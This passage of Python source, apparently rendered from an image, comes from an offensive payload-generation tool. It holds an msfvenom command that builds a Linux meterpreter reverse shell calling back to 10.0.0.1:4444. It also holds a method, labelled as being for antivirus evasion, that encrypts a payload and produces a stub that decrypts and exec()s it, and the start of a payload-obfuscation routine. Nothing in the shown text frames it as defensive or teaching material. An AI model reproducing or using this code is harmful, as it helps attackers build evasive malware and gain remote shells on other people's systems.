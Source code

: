 ```python

        elif target_os == 'linux':
            if payload_type == 'reverse_shell':
                return {
                    'command': 'msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f elf',
                    'format': 'elf',
                    'architecture': 'x64'
                }

        return None

    def encrypt_payload(self, payload):
        """Encrypt payload for AV evasion"""
        # Generate encryption key
        password = ''.join(random.choices(string.ascii_letters + string.digits, k=16))
        salt = os.urandom(16)

        kdf = PBKDF2HMAC(
            algorithm=hashes.SHA256(),
            length=32,
            salt=salt,
            iterations=100000,
        )
        key = base64.urlsafe_b64encode(kdf.derive(password.encode()))
        f = Fernet(key)

        # Encrypt payload
        encrypted_payload = f.encrypt(json.dumps(payload).encode())

        # Generate decryption stub
        decryption_stub = f'''
import base64
from cryptography.fernet import Fernet
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.kdf.pbkdf2 import PBKDF2HMAC

def decrypt_and_execute():
    password = "{password}"
    salt = {salt}
    encrypted_data = {encrypted_payload}

    kdf = PBKDF2HMAC(algorithm=hashes.SHA256(), length=32, salt=salt, iterations=100000)
    key = base64.urlsafe_b64encode(kdf.derive(password.encode()))
    f = Fernet(key)

    decrypted_payload = f.decrypt(encrypted_data)
    # Execute decrypted payload
    exec(decrypted_payload)

decrypt_and_execute()
'''

        return {
            'encrypted_payload': base64.b64encode(encrypted_payload).decode(),
            'decryption_stub': decryption_stub,
            'encryption_key': password
        }

    def obfuscate_payload(self, payload):
        """Obfuscate payload code"""
        # Simple string obfuscation
        obfuscated_strings = {}
```